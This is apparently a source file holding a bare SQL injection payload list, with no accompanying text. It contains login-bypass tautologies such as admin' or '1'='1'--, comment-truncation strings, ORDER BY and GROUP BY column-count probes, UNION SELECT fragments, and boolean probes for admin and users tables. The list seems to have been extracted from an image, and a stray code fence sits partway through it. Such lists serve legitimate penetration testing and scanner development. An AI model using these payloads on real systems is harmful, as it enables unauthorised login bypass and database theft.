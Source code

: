 ```
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
'hi' or 'x'='x';
' AND id IS NULL; --
'''''''''''''UNION SELECT '2

AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2

1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --

admin' --
admin' #
admin'/*
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin' or '1'='1
admin'or 1=1 or ''='
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*```
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
' AND (select 1 from admin limit 0,1)=1
' AND (select 1 from users limit 0,1)=1
```
